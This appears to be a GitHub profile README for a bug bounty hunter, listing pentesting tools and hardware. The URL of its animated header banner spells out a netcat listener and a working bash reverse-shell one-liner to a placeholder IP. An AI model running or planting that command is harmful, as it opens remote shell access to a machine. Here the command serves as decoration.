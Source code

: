 <h1 align="center">Hi 👋, I'm b1kr3m</h1>


<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=4000&pause=500&color=29E8F7&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5Bb1kr3m%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.10.10%2F4444+0%3E%261;b1kr3m%40profile%3A~%24+.%2Fexploit.py;......................................................................................................;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;b1kr3m" alt="Typing SVG" /></a>


```bash
$ whoami
62316b72336d
$ uname -a
Arch Linux | Hyprland | WebSec
$ echo $MISSION
"Making the web safer, one vulnerability at a time"
```
<div align='right'>

</div>

<div align="center">
  <img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=00F7FF&center=true&vCenter=true&width=435&lines=Bug+Bounty+Hunter+%F0%9F%91%A8%E2%80%8D%F0%9F%92%BB;Cybersecurity+Enthusiast+%F0%9F%94%92;Linux+Power+User+%F0%9F%90%A7;Learning+%26+Growing+%F0%9F%9A%80" alt="Typing SVG" />
</div>


### ⚓️ Primary Pentesting Rig
<p align='left'>
  <img src="https://img.shields.io/badge/Arch-f23224?style=for-the-badge&logo=arch-linux&logoColor=white" />
  <img src="https://img.shields.io/badge/Hyprland-blue?style=for-the-badge&logoColor=white" />
  <img src="https://img.shields.io/badge/core%20i7%2013th-%230071C5.svg?&style=for-the-badge&logo=intel&logoColor=white" />
  <img src="https://img.shields.io/badge/rtx%204060-%2376B900.svg?&style=for-the-badge&logo=nvidia&logoColor=white" />
  <img src="https://img.shields.io/badge/RAM-32GB-%230071C5.svg?&style=for-the-badge&logoColor=white" />
</p>

### 🔐 Security Tools

<p align="left">
  <img src="https://img.shields.io/badge/Burp%20Suite-FF6633?style=for-the-badge&logo=burpsuite&logoColor=white" alt="Burp Suite"/>
  <img src="https://img.shields.io/badge/Wireshark-1679A7?style=for-the-badge&logo=wireshark&logoColor=white" alt="Wireshark"/>
  <img src="https://img.shields.io/badge/Metasploit-2596CD?style=for-the-badge&logo=metasploit&logoColor=white" alt="Metasploit"/>
  <img src="https://img.shields.io/badge/Nmap-2C2C2C?style=for-the-badge&logo=nmap&logoColor=white" alt="Nmap"/>
  <img src="https://img.shields.io/badge/Amass-FF6F00?style=for-the-badge&logo=apache&logoColor=white" alt="Amass"/>
  <img src="https://img.shields.io/badge/Sublist3r-4B8BBE?style=for-the-badge&logo=python&logoColor=white" alt="Sublist3r"/>
  <img src="https://img.shields.io/badge/FFUF-FFD700?style=for-the-badge&logo=fastapi&logoColor=black" alt="FFUF"/>
  <img src="https://img.shields.io/badge/SQLmap-800000?style=for-the-badge&logo=sqlite&logoColor=white" alt="SQLmap"/>
  <img src="https://img.shields.io/badge/Hydra-228B22?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Hydra"/>
  <img src="https://img.shields.io/badge/HackerOne-494949?style=for-the-badge&logo=hackerone&logoColor=white" alt="HackerOne"/>
  <img src="https://img.shields.io/badge/Bugcrowd-FF6600?style=for-the-badge&logo=bugcrowd&logoColor=white" alt="Bugcrowd"/>
  <img src="https://img.shields.io/badge/TryHackMe-212C42?style=for-the-badge&logo=tryhackme&logoColor=red" alt="TryHackMe"/>
  <img src="https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=hackthebox&logoColor=9FEF00" alt="Hack The Box"/>
  <img src="https://img.shields.io/badge/Kali-557C94?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali Linux"/>
  <img src="https://img.shields.io/badge/OWASP-000000?style=for-the-badge&logo=owasp&logoColor=white" alt="OWASP"/>
</p>


<picture>
  <source media="(prefers-color-scheme: dark)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph-dark.svg">
  <source media="(prefers-color-scheme: light)" srcset="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
  <img alt="pacman contribution graph" src="https://raw.githubusercontent.com/b1kr3m/b1kr3m/output/pacman-contribution-graph.svg">
</picture>

---

<div align="center">
  
**"From fear to first bounty - the journey continues..."** 🎯

[![Linux](https://img.shields.io/badge/-Linux-000000?style=flat&logo=linux&logoColor=FCC624)](https://github.com/b1kr3m)
[![Security](https://img.shields.io/badge/-Security-000000?style=flat&logo=hackaday&logoColor=1FC7D4)](https://github.com/b1kr3m)
[![Bug Bounty](https://img.shields.io/badge/-Bug%20Bounty-000000?style=flat&logo=bugcrowd&logoColor=F26822)](https://github.com/b1kr3m)
</div>

